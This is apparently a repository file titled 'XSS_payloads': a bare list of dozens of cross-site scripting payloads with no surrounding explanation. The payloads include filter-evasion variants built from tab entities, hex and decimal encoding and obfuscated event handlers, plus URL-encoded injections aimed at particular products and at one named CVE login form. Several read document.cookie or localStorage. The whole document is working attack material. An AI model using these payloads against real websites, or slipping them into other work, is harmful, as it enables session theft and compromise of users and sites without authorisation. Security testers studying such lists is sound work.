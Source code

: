 # XSS_payloads


'">><div><meter onmouseover="alert(1)"</div>"

<iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';>

\');confirm(1);//

<svg%0Aonauxclick=0;[1].some(confirm)//

<svg onload=alert%26%230000000040"")>

<a/href=j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(1)&rpar;>
<svg onx=() onload=(confirm)(1)>

<svg onx=() onload=(confirm)(document.cookie)>

<svg onx=() onload=(confirm)(JSON.stringify(localStorage))>

Function("\x61\x6c\x65\x72\x74\x28\x31\x29")();

"><img%20src=x%20onmouseover=prompt%26%2300000000000000000040;document.cookie%26%2300000000000000000041;

Function("\x61\x6c\x65\x72\x74\x28\x31\x29")();

"><onx=[] onmouseover=prompt(1)>

%2sscript%2ualert()%2s/script%2u -xss popup

<svg onload=alert%26%230000000040"1")>

"Onx=() onMouSeoVer=prompt(1)>"Onx=[] onMouSeoVer=prompt(1)>"/*/Onx=""//onfocus=prompt(1)>"//Onx=""/*/%01onfocus=prompt(1)>"%01onClick=prompt(1)>"%2501onclick=prompt(1)>"onClick="(prompt)(1)"Onclick="(prompt(1))"OnCliCk="(prompt`1`)"Onclick="([1].map(confirm))

[1].map(confirm)'ale'+'rt'()a&Tab;l&Tab;e&Tab;r&Tab;t(1)prompt&lpar;1&rpar;prompt&#40;1&#41;prompt%26%2300000000000000000040;1%26%2300000000000000000041;(prompt())(prompt``)

<svg onload=prompt%26%230000000040document.domain)>

<svg onload=prompt%26%23x000000028;document.domain)>

<svg/onrandom=random onload=confirm(1)>

<video onnull=null onmouseover=confirm(1)>

<a id=x tabindex=1 onbeforedeactivate=print(`XSS`)></a><input autofocus>

:javascript%3avar{a%3aonerror}%3d{a%3aalert}%3bthrow%2520document.cookie

<img ignored=() src=x onerror=prompt(1)>

 "><img src="/" =_=" title="onerror='prompt(document.cookie)'">

 %0d%0a%0d%0a%3Cscript%3Ealert(document.cookie)%3C/script%3E

 javascript:alert(document.domain);&message=Not+Found&site_name=404

 %3Cimg%20src=x%20data%27a%27onerror=alert%28domain%29%3E.childrenlist.html {AEM}

 %22%2F%3E%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

 <img src=x onerror=alert('XSS');>

 %22%3e%3c%53%56%47%20%4f%4e%4c%4f%41%44%3d%26%23%39%37%26%23%31%30%38%26%23%31%30%31%26%23%31%31%34%26%23%31%31%36%28%26%23%78%36%34%26%23%78%36%66%26%23%78%36%33%26%23%78%37%35%26%23%78%36%64%26%23%78%36%35%26%23%78%36%65%26%23%78%37%34%26%23%78%32%65%26%23%78%36%34%26%23%78%36%66%26%23%78%36%64%26%23%78%36%31%26%23%78%36%39%26%23%78%36%65%29%3e.asp

"><SVG ONLOAD=&#97&#108&#101&#114&#116(&#x64&#x6f&#x63&#x75&#x6d&#x65&#x6e&#x74&#x2e&#x64&#x6f&#x6d&#x61&#x69&#x6e)>.asp

 %27%3E%22%3Csvg%2Fonload=confirm%28%27q%27%29%3E&s=%27%3E%22%3Csvg%2Fonload=confirm%28%27s%27%29%3E&search=%27%3E%22%3Csvg%2Fonload=confirm%28%27search%27%29%3E&id=%27%3E%22%3Csvg%2Fonload=confirm%28%27id%27%29%3E&action=%27%3E%22%3Csvg%2Fonload=confirm%28%27action%27%29%3E&keyword=%27%3E%22%3Csvg%2Fonload=confirm%28%27keyword%27%29%3E&query=%27%3E%22%3Csvg%2Fonload=confirm%28%27query%27%29%3E&page=%27%3E%22%3Csvg%2Fonload=confirm%28%27page%27%29%3E&keywords=%27%3E%22%3Csvg%2Fonload=confirm%28%27keywords%27%29%3E&url=%27%3E%22%3Csvg%2Fonload=confirm%28%27url%27%29%3E&view=%27%3E%22%3Csvg%2Fonload=confirm%28%27view%27%29%3E&cat=%27%3E%22%3Csvg%2Fonload=confirm%28%27cat%27%29%3E&name=%27%3E%22%3Csvg%2Fonload=confirm%28%27name%27%29%3E&key=%27%3E%22%3Csvg%2Fonload=confirm%28%27key%27%29%3E&p=%27%3E%22%3Csvg%2Fonload=confirm%28%27p%27%29%3E

 <img/src/onerror=prompt(8)>


 \u003cimg\u0020src\u003dx\u0020onerror\u003d\u0022confirm(document.domain)\u0022\u003e&SMAUTHREASON=7

 hack%22%3E%3Csvg/onload=alert(document.domain)%3E&login%5Bsubmit%5D=Change%20Password&login%5Buse_curr%5D=1

 =%3Csvg/onload=alert(1)%3E

<a href="@bing.com" onmousemove="alert('Mouse moved!')">Click me</a>


 POST BASED CVE-2019-1010287
"""username=%27%22%3E%3Cscript%3Ejavascript%3Aalert%28document.domain%29%3C%2Fscript%3E&password=pd&submit=Login""" 

%22%2F%3E%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

